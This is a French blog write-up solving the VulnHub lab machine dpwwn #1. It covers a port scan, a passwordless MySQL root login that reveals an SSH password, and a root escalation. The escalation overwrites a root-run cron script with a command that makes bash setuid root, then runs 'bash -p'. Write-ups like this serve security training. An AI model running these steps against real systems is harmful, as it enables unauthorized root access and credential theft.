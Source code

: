 ```yaml
---
title: "Solution du CTF dpwwn #1 de VulnHub"
tags: [CTF, VulnHub]
---
```


J'ai passé plus de temps à mettre en place la VM du [dpwwn: 1](https://vulnhub.com/entry/dpwwn-1,342/) qu'à l'exploiter : impossible de la faire fonctionne sur VirtualBox selon lequel il manquait des disques et j'ai eu plusieurs ratées sur VMWare concernant la récupération d'une adresse IP.

Finalement au bout d'un moment l'import de la VM a fonctionné dans VMWare. Le système était extrêmement lent, mais ça fonctionnait.

La machine expose trois ports :

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

Sur le serveur web, on trouve juste un `info.php` correspondant à un `phpinfo()`. Il contient une adresse IPv6 mais un scan supplémentaire n'a remonté aucun nouveau port.

J'ai alors essayé de me connecter sur le MySQL en `root` et sans mot de passe et ça a fonctionné :

```console
$ mysql -u root -h 192.168.242.128
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 2
Server version: 5.5.60-MariaDB MariaDB Server

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| ssh                |
+--------------------+
4 rows in set (0,003 sec)

MariaDB [(none)]> use ssh;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [ssh]> show tables;
+---------------+
| Tables_in_ssh |
+---------------+
| users         |
+---------------+
1 row in set (0,001 sec)

MariaDB [ssh]> select * from users;
+----+----------+---------------------+
| id | username | password            |
+----+----------+---------------------+
|  1 | mistic   | testP@$$swordmistic |
+----+----------+---------------------+
1 row in set (0,001 sec)
```

Ce mot de passe présent dans la base `ssh` permet sans trop de surprise de se connecter sur le service du même nom.

On découvre dans le dossier personnel de l'utilisateur un script bash :

```
-rwx------. 1 mistic mistic 186  1 août   2019 logrot.sh
```

Ce dernier n'a rien d'intéressant :

```bash
#!/bin/bash
#
#LOGFILE="/var/tmp"
#SEMAPHORE="/var/tmp.semaphore"


while : ; do
  read line
  while [[ -f $SEMAPHORE ]]; do
    sleep 1s
  done
  printf "%s\n" "$line" >> $LOGFILE
done
```

On se dit qu'il est sans doute appelé par une crontab et c'est bien le cas :

```console
[mistic@dpwwn-01 ~]$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/3 *  * * *  root  /home/mistic/logrot.sh
```

Vu que l'on est propriétaire du fichier, on va écraser son contenu pour obtenir un shell setuid root :

```console
[mistic@dpwwn-01 ~]$ echo -e '#!/bin/bash\nchmod 4755 /usr/bin/bash' > logrot.sh
[mistic@dpwwn-01 ~]$ sleep 180
[mistic@dpwwn-01 ~]$ ls -l /usr/bin/bash
-rwsr-xr-x. 1 root root 918400 30 oct.   2018 /usr/bin/bash
[mistic@dpwwn-01 ~]$ bash -p
bash-4.2# id
uid=1000(mistic) gid=1000(mistic) euid=0(root) groupes=1000(mistic) contexte=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
bash-4.2# cd /root
bash-4.2# ls
anaconda-ks.cfg  dpwwn-01-FLAG.txt
bash-4.2# cat dpwwn-01-FLAG.txt

Congratulation! I knew you can pwn it as this very easy challenge. 

Thank you. 


64445777
6e643634 
37303737 
37373665 
36347077 
776e6450 
4077246e
33373336 
36359090
```



